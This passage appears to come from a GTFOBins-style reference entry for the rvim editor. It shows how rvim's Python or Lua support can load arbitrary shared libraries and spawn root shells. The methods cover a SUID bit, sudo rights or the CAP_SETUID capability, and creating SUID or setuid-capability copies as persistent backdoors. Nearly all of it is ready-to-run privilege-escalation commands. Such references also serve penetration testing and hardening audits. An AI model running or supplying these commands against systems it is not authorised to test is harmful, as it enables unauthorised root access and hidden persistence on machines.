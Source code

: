 ## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
rvim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which rvim) .

./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `rvim` is compiled with Lua support.

```
sudo rvim -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which rvim) .
sudo setcap cap_setuid+ep rvim

./rvim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
